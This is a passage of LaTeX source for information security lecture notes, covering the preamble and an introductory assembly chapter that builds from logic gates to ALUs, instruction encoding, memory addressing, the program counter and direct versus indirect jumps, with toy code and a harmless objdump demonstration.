\documentclass[12pt,lettersize]{book}

%lmtt gives us bf for tt fonts whereas the default cmtt doesn't
\renewcommand{\ttdefault}{lmtt}

\setlength\textwidth{6.5in}
\setlength\oddsidemargin{0in}
\setlength\evensidemargin{0in}

\setlength\parindent{0em}
\setlength\parskip{1em}

\usepackage[hidelinks]{hyperref} %for url
\usepackage{fancyvrb} %for Verbatim
\usepackage{listings} %for lstinline
\usepackage{mdframed} %for frames for segues
\usepackage{graphicx}

\lstset{basicstyle=\ttfamily}

\newenvironment{code}{\footnotesize
\Verbatim[frame=single,numbers=left,xleftmargin=2em]}{\endVerbatim}
\newenvironment{code2}[1]{\footnotesize
\Verbatim[frame=single,numbers=left,xleftmargin=2em,commandchars=#1]}{\endVerbatim}
\newenvironment{codefile}[1]{\footnotesize
\Verbatim[frame=single,numbers=left,xleftmargin=2em,label=#1]}{\endVerbatim}
%the numbering don't look nice enough though.

\newcommand{\inlinedcode}{\lstinline}
\newcommand{\ignore}[1]{}
%\newenvironment{note}{\begin{minipage}{\textwidth} \bf NOTE:}{\end{minipage}}
%didn't really work due to font and paragraph issues

%\newcommand{\note}{\textbf{NOTE:} \textbf}
%didn't work because this won't accept additional declarations

\newmdenv[leftline=false,rightline=false,skipabove=12pt,skipbelow=12pt]{note}
\newmdenv[leftline=false,rightline=false,skipabove=12pt,skipbelow=12pt]{triple}
\newmdenv[skipabove=12pt,skipbelow=12pt]{segue}
%\newenvironment{segue}[1]{\Verbatim[frame=single,label=#1]}{\endVerbatim}

\ignore{
\lstdefinestyle{MyStyle}{%
basicstyle=\footnotesize\ttfamily,
numbers=left,
numberstyle=\footnotesize,
framexleftmargin=2em,
frame=single,
fancyvrb=true,
linewidth=.8\textwidth,
}

%\newenvironment{MyCode}{\lstset{style=MyStyle} \Verbatim[frame=single]}{\endVerbatim}
\lstnewenvironment{MyCode}{\lstset{style=MyStyle}}{}
}

\title{Lecture Notes for Information Security and Privacy}
\author{Lok Yan}

\begin{document}

\maketitle

\chapter{Intro}
Here is a citation so Latex/bibtex stops complaining. \cite{NYUISP_Notes_Github}

\chapter{Introduction to Assembly - A Bottom Up Approach}

One of the core principles of our Information Security and Privacy class is to focus on the fundamentals. The belief is that when we are able to understand the fundamentals and the intuition behind the most basic building blocks of security, we will be better prepared to understand new concepts when we get exposed to them. We will continue this methodology in this short tutorial on x86 assembly. 

Think back to your undergraduate studies (if you didn’t have a CS or CompE background then go and take a look at some program course schedules) and you will notice that one of the first classes you take is Digital Logic. There is a reason for this. 

Most of us are familiar with high level programming languages such as Python and C (yes I am aware that some people don’t consider C a high level language, but we will soon see that it is indeed quite high). However, some of us might not be able to trace the programs written in such languages all the way down to the most basic building blocks. 

Let’s take C for example, when we write a C program, we will normally compile the source into an object file and then link it with other objects into a single executable. The executable will undoubtedly be expressed as machine level instructions which can be immediately disassembled into an Assembly Language if desired. 

It is then up to the CPU (Central Processor Unit) to interpret the machine instructions and actually execute them. At the core of any CPU should be an Arithmetic Logic Unit (ALU) which is the main component in charge of executing many of the popular instructions. More advanced instructions might involve co-processors, but let’s just focus on the ALU at the moment.

\section{Arithmetic Logic Unit}

As the name implies, the ALU focuses on the ability to perform Arithmetic (add, subtract, etc.) and Logic (and, or, etc.) operations. But then what makes up an ALU? If we decomposed it even more, we will arrive at the basic components from digital logic. Beyond that are transistors or other means of building logic gates, which are beyond the current discussion.

So what did you learn from Digital Logic? You should have learned two types of components: discrete and sequential. Discrete logic are logic gates where the output is fully determined by the input almost instantaneously (there is always a delay). NAND gates\footnote{Remember that NAND gates can be used to construct all other logic gates}, AND gates, OR gates, XOR gates, etc. are all examples of discrete logic gates. Sequential logic gates are ones where the output depends on both the input and some notion of history. Normally this notion of history is encoded as a clock ({\tt clk}) input where the output is not determined until the {\tt clk} signal is switched on a ``rising edge'' or a ``falling edge''. The trigger doesn’t matter as much as the fact that sequential gates can remember things. This ability to remember things is why sequential logic is used to build registers which can be thought of as super fast memories.

\subsection{Building Up from Basic Gates}

Thus, given our knowledge of digital logic, we know that we have the very basic gates such as AND and OR, as well as registers due to the availability of sequential elements. Let’s focus on the AND and OR gates. 

The first question that we will want to ask is what can we do with AND and OR gates? Can we use it to create an ALU? Well given that a NAND (or NOR) gate can be used to build all other basic logic gates (\url{https://en.wikipedia.org/wiki/NAND_logic}) we know that the ``Logic'' part of ALU is covered\footnote{Not exactly since the ``shift'' is also considered a Logic operation. Shifting either left or right can be implemented using sequential elements though. Think of a ``shift register.''}  What about the ``Arithmetic'' part of the ALU? 

Well perhaps we remember that a full adder can be built using just the basic logical elements as well (\url{https://en.wikipedia.org/wiki/Adder_(electronics)#Full_adder}) meaning we have addition covered. Since subtraction is just addition with the negative of the second operand, we should have that covered as well.

But then what about multiplication?

Multiplication is a bit tricky because it is not as straightforward as the other operations. In particular, we can’t perform multiplication in a single clock tick. In other words, we can’t just build a multiplier straight out of discrete components where the output (product) will be known immediately after the inputs (multiplicands) are set. Multiplication requires some memory. Think about long multiplication such as follows:

\begin{code}
          123
x         321
----------------
          123   <--
         246    <--   Memory / Temporary Storage
        369     <--
----------------
        39483
\end{code}

Notice how we had to store the temporary products (123, 2460 and 36900) somewhere before we can add them all up to get the final product. Juxtapose this with addition where a temporary sum isn’t needed. 

At first glance there seems to be a catch-22. You need to calculate the partial products first prior to summing them up, but what about the partial products? Albeit the partial products are of a large multi-digit number with a single digit number, we still have to do multiplication. 

Luckily, we are dealing with binary numbers and binary multiplication is significantly easier to implement. The partial products are effectively multiplying the first binary number with either a 0 or a 1 meaning we can implement the partial products using AND operations.  This along with SHIFTLEFT and ADD will give us a simple multiplier (\url{https://en.wikipedia.org/wiki/Binary_multiplier}). 

Let’s look at the problem a little bit deeper. How can we get temporary memory?

\subsection{Registers for Temporary Storage}

Some of you might have observed that we can get temporary memory by creating another register. But what is a register? Why do we need it? Think about the ALU operations we have talked about thus far. They had to operate on some input, but where does this input come from and where does the output go?

Registers are fairly straightforward to explain since you have undoubtedly built them as part of your Digital Logic training. A bank of D-Flip-Flops will give you a register for example. 

Due to the fact that the operations are built using discrete components where the output is determined right when the inputs are set, we need a way to hold the inputs and outputs for a period of time so we can 1) set the inputs, 2) perform the operation and 3) read the output. 

If we didn’t apply step 1 by setting and holding (the digital logic term is latch) the input value, then the output will fluctuate along with any fluctuations in the input. Since we like stability, we would like to hold the input for a while until the output has stabilized and we have read the output. 

With regards to the output, if we didn’t perform step number 3 and read the output at the right time, we might be reading the wrong result. We ensure this by reading the output in the next clock cycle where a clock cycle is designed to be long enough for all values to settle\footnote{This delay between inputs and outputs is known as the {\em propagation delay} and is the real reason why we don't do multiplication using a big mass of discrete components. A multiplication circuit will have a long delay}.

This is why we say that these operations take 1 clock cycle by the way. We set and hold the input at clock cycle t and the discrete logic automatically gets updated to the correct output. After allowing the output to settle for one clock cycle we can then read the output at clock cycle {\em t+1}. 

In summary, the inputs and outputs are stored in registers which are subsequently built using flip-flops, the sequential elements you learned from Digital Logic. 

At this point in the tutorial, we have seen how he basic logical elements we learned from Digital Logic can be used to build the many operations that might be part of a basic ALU. This does not look like assembly though. What are we missing?

If we think of assembly, we might think of instructions - that is some way of telling the ALU which operation to perform. This is the next topic of discussion.

\section{Machine Instructions}

Right now we know that we can build the basic ALU operations, but which operation should we perform at any given time? The easiest thing for us to do is to perform all of the ALU operations at once and then let the user decide which answer they want. This is, in a way, what we do when we design complex digital circuits right? 

For example, if we want to implement the multiplier discussed previously, we might simply replicate the ALU {\em 3n} times where n is the size of the input operand in bits. We use the \inlinedcode{AND} operation in the first {\em n} ALU implementations to calculate the n partial products (one per bit). We will then use the \inlinedcode{SHIFTLEFT} operation in the next {\em n} ALU implementations to shift the partial products the number of times necessary so they are in the right location. We will then need to use the last {\em n} ALU implementations to incrementally \inlinedcode{ADD} up a shifted partial product with the temporary sum until all partial products have been summed up to obtain the final product\footnote{Note that the shifts and summation require operand sizes of {\em 2n} instead of just {\em n}}.


This is certainly feasible, but is not a very elegant design since most of these ALU implementations will be doing useless work when the multiply operation is not used. An astute student might have also recognized that if we can chain ALUs together like this, it would also means that we should be able to build a multiplier using only discrete components without the need for memory. While this is indeed true, the depth of the components will negatively affect how fast a single clock cycle can be, which means while feasible, it might not be a good idea.

What is an alternative?

In the interest of being frugal and efficient, an alternative method is to have only one single ALU that can run as fast as reasonable but then have a way to control what the ALU does during each execution and then chain the executions. In digital logic terms, this is just a multiplexer. 

\subsection{Selecting Instructions and Chaining Them}

Pictorially the idea looks something like in figure \ref{fig:IntroToAssembly:SimpleALU}. As we can see, the new reusable ALU now has three inputs, the ``Op Select'' to select the operation to use, the two operands ``Input 1'' and ``Input 2'' as well as the single output ``Output''. 

\begin{figure}
\centering

\includegraphics[width=5in]{IntroToAssembly/images/SimpleALU}
\label{fig:IntroToAssembly:SimpleALU}
\caption{A Simple ALU}
\end{figure}



While we now have the ability to select the operation to perform, we don’t yet have the ability to actually select the Inputs and Outputs. That is, in the multiplication example, we wanted to perform a sequence of binary multiplications (\inlinedcode{AND} operation), store the results in temporary locations and then perform the \inlinedcode{SHIFTLEFT}s followed by the \inlinedcode{ADD}s. Effectively, we need the ability to select the temporary locations to read the actual inputs from (we will call these input registers) as well as the temporary locations where to write the temporary outputs to (the temporary output registers). This will give us the ability to chain instructions together to create something new. Sometimes we call these new instructions {\em ``meta-instructions''} which are like functions in high level programming languages.

We already know how to do that: by adding additional multiplexing logic. So what this means is that we will now use ``Input 1'', ``Input 2'' and ``Output'' as selectors for which registers to read the input values from and output values to. Quickly, since the user might use the same register as inputs as well as outputs, we might also want to add another layer of indirection (we see this technique a lot, don’t we?) where the inputs and outputs are stored in temporary registers. The resulting design might look like figure \ref{fig:IntroToAssembly:SimpleALUWithRegisters}.

\begin{figure}
\centering

\includegraphics[width=5in]{IntroToAssembly/images/SimpleALUWithRegisters}
\label{fig:IntroToAssembly:SimpleALUWithRegisters}
\caption{A Simple ALU with registers. Note: I did not draw the lines from the Register File (the collection of Registers on top) to the muxes and also from the output back because it would have been too messy. I also changed the names of the inputs.}
\end{figure}

At this point, we have used our basic Digital Logic knowledge to build a CPU of sorts (at least the ALU part of one). We should also see that we now have four different inputs, the OpCode, the Src1, Src2 and then the Dst. We are now ready to talk about instruction encodings.

\subsection{Encoding Instructions in Binary}

For illustration purposes, let’s say that this computer that we are building will have 256 registers in the register file and will also include 256 different operations (we only show 4 above, but use your imagination). This distinction is very special because it is very neat. What this means is that we can encode all of the necessary information into a single 32-bit value. All we need to do is assign a particular OpCode value to each unique operation and then decide on an ordering of the 4 bytes.

To keep things consistent with the x86 ATT format (the one that GNU Assembler - GAS - uses) we will have the OpCode, followed by the SRC operands followed by the DST. So for example, if the ADD operation has OpCode number 5 and we are trying to add registers 1 and 15 together and store the sum into register 10 we might have the following: 

0x05 | 0x01 | 0x0F | 0x10

Knowing this information also means we can now decode any instruction. In particular, given the raw instruction bytes, we can take the first byte, look up into a table and then obtain the instruction being processed, the next two bytes will then be used to obtain the register numbers of the two source operands and finally the last byte will be used to obtain the register number for the output. The entire process of getting the instruction and decoding it is known as disassembly. In effect, disassembly takes the machine level input (the raw bytes) and transforms it into human readable input (assembly).

\subsection{Supporting Constants in Instructions}

At this point we have the ability to instruct the ALU to perform basic operations on registers. One might then ask, how does one load information into the registers in the first place? Some of you might think that it should be possible to load a constant value (a literal) into the registers such as loading the value 0 into a register, others might think of loading some data from memory into the registers, but then we haven't discussed memory yet, and finally someone else might suggest that all registers are loaded with default values such as a default of 0 and then it is up to the user to use the available instructions to calculate other values as needed. 

To the last point, imagine if there is an instruction operation \inlinedcode{INC} for "Increment", \inlinedcode{MOV} for "Move or copy", \inlinedcode{SHIFTLEFT} for "Shifting the first operand to the left the right operand number of times", and all registers are initialized to zero. If we want to load the value 17 (0x11) into the register R0 we will be able to do it using the following sequence of instructions.

\begin{code}
INC R0, X, R0 # We use X to represent a Don't Care in this case since INC only requires a single operand. R0 is now 1
MOV R0, X, R1 # Copy 1 into R1
INC R1, X, R1 # R1 is now 2
SHIFTLEFT R1, R0, R1 # R1 is now 4 since 2 (10b) << 1 is the same as (100b) which is 4
SHIFTLEFT R0, R1, R0 # R0 is now 1 << 4 or 10000b which is the same as 0x10
INC R0, X, R0 # Finally R0 is now 17
\end{code}

The previous example is also good for illustrating how assembly programming is just like any other programming. We are given a list of possible operations to make and it is up to us to figure out how we can make use of the limited set of operations to make something more complicated. 

This process is not that different from how we were able to use the basic components from digital logic to make the ALU in the first place. This is the general case for computing. Everytime we create something new, we create a new "abstraction" layer. Digital Logic created an abstraction layer that abstracted away the details of the transistors from the logic gate users, then the ALU has abstracted away the details of the logic gates (both discrete and sequential) to make friendlier and more familiar functions such as the \inlinedcode{ADD}, \inlinedcode{SUB}, etc. operations. We will do this until we get an assembly language, but it is easy or at least should be easy to imagine how this can continue until you get to higher order languages. 

Back to the point of discussion. We have thus far shown that we can use the available instructions to help initialize certain values into registers. What about loading these constant values into the registers in the first place?

\subsubsection{Loading Constants Directly}

Loading constant values into the registers will require some overloading of the instruction format that was discussed previously. Previously we have determined that the first byte of the instruction will be used to store the OpCode or the number of the operation to process. The other bytes will then be used to store the appropriate register numbers. In the previous example we also demonstrated and stated that sometimes there might be don't cares because certain operations do not require more than one operand. 

To introduce support for loading constants, we will now have to make decisions based on the OpCodes themselves. This can be easily supported as long as we have a quick way to identify all of the constant based OpCodes (let's say the first most significant bit of such OpCodes are 1b). In this case we will have 128 OpCodes that will deal with with register based operands and another 128 that deals with Constants. 

Since it doesn't make sense for the output to go into a constant, this also means that of the 4 bytes available in our 32-bit instruction format, only two are already taken. The first byte will contain the operation number (OpCode) to process and the last byte will be used to hold the destination register.

This leaves us with 2 bytes of space left to store the constant. So for example, imagine if we have an OpCode 0x80 (1000 0000b) for the \inlinedcode{MOV_C C, DST} instruction that moves a constant C into the register DST. Everything looks good and we now have the ability to support loading and using constant values in our operations.

\subsubsection{Supporting >2 byte Constants and Variable Length Instructions}

The problem that you might have noticed is that the Registers themselves are 4 bytes long but the constant is only 2 bytes. What do we do? 

On the one hand we can use the ALU trick above and just say that if you want to move a 4 byte constant (0x12345678) into a register then you will do something like the following

\begin{code}
MOV_C 0x1234, R0 # R0 = 0x1234
MOV_C 0x0010, R1 # R1 = 16
SHIFTLEFT R0, R1, R0 # R0 = 0x12340000
MOV_C 0x5678, R1 # R1 = 0x5678
OR R0, R1, R0 # R0 = 0x12345678
\end{code}

An alternative approach is to introduce variable length instructions. That is the length of the instruction (in bytes) is determined by which OpCode is being used. Constant-based operations might have different variants depending on the size of the constant. Two byte constants will result in 4-byte instructions (as we have discussed) and four byte constants will then result in 6 byte instructions. This design requires additional facilities and internal logic to dynamically determine how big the instruction is, but it is certainly possible.

In fact, the prior design is what ARM uses -- ARM uses 32-bit or 4-byte instructions -- and the latter is what x86 uses -- x86 uses variable length instructions ranging from 1-byte to 15-bytes. 

\subsection{Supporting Memory Operations in Instructions}
We are now left with the last solution to the original problem of loading initial values into the registers. How do we support the loading of values and constants from memory?

As you can probably guess by now, loading new values from memory will also require support for additional OpCode based logic where we further separate the OpCodes into ones that deal with registers only, ones that deal with constants and registers as well as ones that deal with memory and registers. Also with our recent discussion, you might wonder what happens if we have a lot of memory (let’s say 32-bit addressable or 4GB of addressable memory?). If the 4-byte instructions are not big enough to hold 4-byte constants how in the world will it be suitable or sufficient for addressing the entirety of memory?

This problem can be solved using the variable length instruction format as discussed previously, but it can also be done using some other tricks. The first technique is to use register-offset-based addressing. For example, we can create a new instruction for \inlinedcode{MOV_RO BASE, C, DST} where we will load the 4 bytes of contents from memory location BASE + C into DST. For example, we can continue with the 0x12345678 example above and load the contents of memory location 0x12345600 into register R1 using

\begin{code}
MOV_RO R0, -0x78, R1 # -0x78 still works since it fits within one byte in 2's complement
\end{code}
 
Similarly we can move the contents of 0x12345700 into register R2 using

\begin{code}
MOV_RO R0, 0x88, R2
\end{code}

While this works, there is always the limitation that we can only reference -128 to 127 of the address contained within a register. We can always work around this limitation by adding the desired offset into the register in the first place and then just loading the contents of memory directly from the register such as the following

\begin{code}
# Assume that we have moved 0x10000000 into R0 as shown before
# Assume that we have also moved 0x12345678 into R1 as before
ADD R0, R1, R2 # R2 = 0x22345678
MOV_RO R2, 0x0, R2 # R2 is now the contents of the memory location with address 0x22345678
\end{code}

Once again, other solutions are possible. It all depends on our imagination and the ability to use the basic operations given to build more and more advanced functionality.

At this point, we were able to use the basic discrete and sequential logic components to build an ALU that contains the most basic operations that includes variants to support using constants, accessing memory as well as just operating with registers. One question that might have nagged you and perhaps continues to do so is where do we get all of the instructions from in the first place?

\section{Storing the Instruction Stream}

The examples above showed sequences of instructions to perform interesting and more advanced operations, but where does one store all of those instructions?

First let’s remember that the instructions are just sequences of bytes. The raw bytes become instructions when the ALU processes them into their corresponding parts and interprets them accordingly. Recall how we first started with a 32-bit instruction format where each byte has a specific meaning. What this means is that given any 4-bytes, the ALU will treat the first one as an OpCode, the last byte as the destination register and then finally the two middle bytes depending on what the operation specified by the OpCode is. It will interpret it this way as long as you give it 4 bytes. 

Note in the case of variable length instruction formats such as x86, the actual number of bytes used will vary. While this is true, the fundamental observation that the ALU will interpret any bytes given to it as part of the instruction stream still holds.

This is the first major observation that warrants additional emphasis - as long as the ALU gets the bytes, the bytes will be treated as instructions. It doesn’t matter where the raw bytes come from. So where can we get them from?

\subsection{Storing Instructions in Infinite Instruction Registers}

In the simplest case we might imagine a completely separate set of registers RI being used to store the instructions. Let’s take this special theoretical case as an example and build from it.

To see how this works, we will just have to imagine that for the mini code samples we discussed above, each one of the instructions will be loaded into a sequence of registers RI0, RI1, RI2, … All that is left is for the ALU to start processing the first instruction at RI0, followed by the second and then the third until all of the instructions have completed. If you are wondering how we can known when all of the instructions have been processed, you can just imagine a special OpCode that is reserved to signify the END for example. 

This simple design works well as long as we have fixed length instructions. What happens when we have variable length instructions though? For example what should the size of each instruction register be for a similar x86 machine? Should it be 1 byte long or 4 bytes or perhaps 15 bytes and just forst each instruction, even 1 byte instructions, to be stored in its own 15-byte register? 

This dilemma brings makes the next design choice a bit obvious, but so does the realization that infinite register machines are not very realistic. It is much more realistic to have the instruction bytes be loaded into memory and have the ALU load each and every single instruction from memory instead. 

\subsection{Storing Instructions in Memory}

For illustration purposes let’s fist imagine that we have an infinite number of registers each of 1 byte in length. We didn’t like the 15-byte register design because many bytes will remain unused. In this design, we can no longer rely on each individual register containing its own instruction. Instructions can span across multiple registers. How do we keep track of things now?

As with many other things in Computer Science, we can keep track of which bytes we are interpreting as the current instruction by using another layer of indirection. We can simply introduce a special register called the Program Counter (also known as Instruction Pointer) that contains the register number of the current instruction (x86 uses this design) or the next instruction (ARM uses this design) -- the only real difference is when we update the counter either after the instruction is executed or before the instruction is executed. 

So tying this together with the previous examples, we now have a new register PC that will start with the value 0. In the 32-byte instruction design where each register contains another instruction, the PC register is incremented automatically every time an instruction is executed. This means that the PC will go through values of 0, 1, 2, 3, … corresponding with the R0, R1, R2, R3 we discussed previously.

In the case where each instruction can be of a different size and the registers are a single byte each, we will be adding the size of the current instruction to the PC instead of simply incrementing it each time. So for example, if the instructions that we will be executing are of size 4, 7, 8, 3, 2 respectively, the PC will go through values of 0, 4, 11, 19, 22, 24 respectively to signify that the ALU should process the instruction starting at R0, which the ALU recognizes is a 4 byte instruction that is stored in R0, R1, R2 and R3. The next instruction should therefore be in R4, which the ALU recognizes is a 7 byte instruction and so on.

At this point, we should make a very interesting observation. In this case where variable instruction lengths are used, if we somehow had an error where we started with PC having the value 1 instead of 0, then the instruction stream can be completely different because the actual operation as well as instruction length is determined by the ALU when the raw bytes are loaded from the registers. 

We can use x86 to illustrate a very quick example.
\begin{code}
seed@ubuntu:~/Desktop/SAMPLE$ echo -e -n "\xa1\x55\x89\xe5\x00" > TEST
seed@ubuntu:~/Desktop/SAMPLE$ objdump -m i386 -b binary -D TEST

TEST:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:	a1 55 89 e5 00       	mov    0xe58955,%eax

seed@ubuntu:~/Desktop/SAMPLE$ objdump -m i386 -b binary --start-address=0x1 -D TEST

TEST:     file format binary


Disassembly of section .data:

00000001 <.data+0x1>:
   1:	55                   	push   %ebp
   2:	89 e5                	mov    %esp,%ebp
	...
seed@ubuntu:~/Desktop/SAMPLE$ 

\end{code}

The first command in the sample above is used to write some raw byte values into a file named TEST. The second command uses the objdump program to disassemble the raw bytes. As we can see, the instruction that has been disassembled is a \inlinedcode{MOV} instruction. The constant value we are moving into the EAX register should look familiar. The third command uses objdump to disassemble again, however with an offset of 1 instead. The alternative stream is obvious.

Interestingly enough, if you think about the case of the 32-bit instructions (or cases where all instructions are of the same size), this problem doesn’t exist because the instruction boundaries are always clear and well defined. This means that an architecture such as ARM doesn’t have the multiple-instruction stream problem we just illustrated above (this isn’t fully true since ARM has different operating modes such as THUMB which uses 16 bit instructions instead of 32 so the problem can still exist, but not as bad as in x86). 
 
At this point, we should see how the introduction of a PC register can help keep track of where we are in terms of which raw bytes should be used for executing the current instruction. We should also see that the infinite single-byte instruction register design mentioned previously is not that different from the memory design that uses byte-addressing. Instead of storing the register number of the first byte of the current instruction, the PC will store the memory-address of the first byte of the current instruction.

\section{Chaining Instructions Using Control Flow Redirection}

At this point of our discussion, we have described how the basic elements from digital logic can be used to build an ALU which can support variable length instructions. However, there is the limitation that the instructions must be sequential - one after another. We haven’t discussed any means to change the control flow (flow of execution) yet. Importantly, we haven’t discussed any ways to perform loops, which would be nice if we wanted to implement that multiplier.

\subsection{Loops}

The simplest loop that we can define is perhaps a loop with a known number of iterations. These kinds of loops are simple, because we can simply “unroll” them which is to simply copy the loop body and paste it the number of iterations turning it into a single stream of instructions.

The next simplest loop is the infinite loop where we execute the body of the loop an infinite number of times, meaning there is no way to fully unroll the loop or even come up with an upper bound and unroll the loop using that as an iteration. The infinite loop is simple because all we need is a way to tell the ALU that the next instruction to execute is actually at the beginning of the loop once we have reached the end of the body. 

Given our discussion about using a PC to keep track of where we are, what we are missing is a simple instruction/operation that can write a value to the PC. Once again, there might be different variants that writes an offset to the PC (using the current value as the base) or a constant value or even reading the value from a register or memory just like all of the variants we discussed previously. These types of instructions are normally called “branches” (ARM parlance) or “jumps” (x86 parlance) and they are effectively the same as a \inlinedcode{MOV} operation where the destination register is PC instead of a normal register number.

For example, if we have 32 bit instructions from the early examples, the following sample assembly code will give us an infinite loop that increments the register R0 forever.

\begin{code}
INC R0, X, R0 # Assume that this instruction is stored in register RI0 or memory location 0
MOV 0, X, PC # we can use something like JMP 0 as a shortcut macro where PC as the destination register is implied.
\end{code}

\subsection{Conditional Control Flow Transfers}

After infinite loops, the next easiest (or actually the only remaining category in our discussions) is the variable iteration loop, where the loop ends when a condition is satisfied -- think of a “while” loop. So how do we check conditions? 

In effect, we need a conditional branch or a conditional jump. Perhaps the simplest thing we can imagine is something such as “jump if register is not 0” which we can call \inlinedcode{JNZ} for short. For example, if I want to count register R0 from 10 down to 0, we can do something as follows (to make things a little bit more interesting let’s assume all instructions are 32-bits long and the PC contains the memory address of the current instruction to execute and these instructions start at memory address 0x12345678):

\begin{code}
MOV_C 0xA, R0 # R0 = 10
MOV PC, X, R2 # R2 = PC = 0x1234567C, save the address
SUB_C R0, 0x1, R0 # R0 = R0 - 1
JNZ R0, X, R2 # if R0 == 0 then first byte of next instruction is located at memory address in R2, meaning we will go back to the MOV PC, X, R2 instruction
\end{code}

Alternatively, if there was a \inlinedcode{JNZ} instruction that takes an “offset” from the current PC value then the loop can be written as

\begin{code}
MOV_C 0xA, R0 # R0 = 10
SUB_C R0, 0x1, R0 # R0 = R0 - 1
JNZ_C R0, -0x4 # if R0 == 0 then first byte of next instruction is 4 bytes before current instruction, since currently PC is at 0x12345680, we will execute the instruction at 0x1234567C next, which is the SUB\_C R0, 0x1, R0 instruction. Notice how this loop is a bit tighter and more efficient than the previous one since the MOV PC instruction from the loop before is unnecessary. We certainly could have fixed it by adding an offset of 8 bytes into R2 right before the SUB\_C instruction (I’ll leave it up to you to figure that out).
\end{code}

You can certainly think of other ways to do this as well.

\subsubsection{Direct Versus Indirect Jumps}

Now I want to point out something very interesting about the two cases above. The first case is known as an “indirect jump” or an “indirect branch” because the target address (the value to store into PC) is itself stored in another location -- a register in this example, but it’s also an indirect jump if it’s stored in memory. The second case is a direct jump because the target address is always known. 

To be more precise, while the value of the target address does depend on the PC register, and the value of the PC register might not be known exactly until runtime, but given that we know the value has to be where the \inlinedcode{JNZ_C} instruction is, the next instruction is guaranteed to be the \inlinedcode{SUB_C} instruction unless the raw bytes representing the instructions themselves have changed in memory. 

That is, if the value of PC has changed by the time we execute \inlinedcode{JNZ_C}, the new value of PC - 0x4 is still where \inlinedcode{SUB_C} is. This is not true for the first case since if R2 changed values by the time we execute the JNZ instruction (you might not fully see why this is the case until we talk about functions, things will be more clear then), the next instruction will start at whatever the new value is. 

\subsubsection{Direct and Indirect Memory Addressing}
Note that memory accesses can also be direct and indirect. The examples above have only used indirect addressing given that \inlinedcode{MOV_RO} is a constant offset from a particular register. As discussed previously though, it is also possible to use constant memory addresses if we have long enough instructions as in variable length instruction sets. 

Notice that we said that PC based offsets can also be considered direct addressing as long as the instruction stream (the memory containing instructions) does not change. In general, the way we reason about direct versus indirect addressing is by asking whether the target address can be determined statically (direct) versus dynamically (indirect).

In other words, direct addresses are ones that can be determined without running the program (statically) or that any execution of the program will result in the same address while indirect addressing uses memory addresses that can change through different executions of the program and we can only be sure of the value at runtime (dynamically). To see how this might work, let’s assume that there is another special register called \inlinedcode{PC_BASE} which will always contain the base memory address of the first instruction in the instruction stream. 

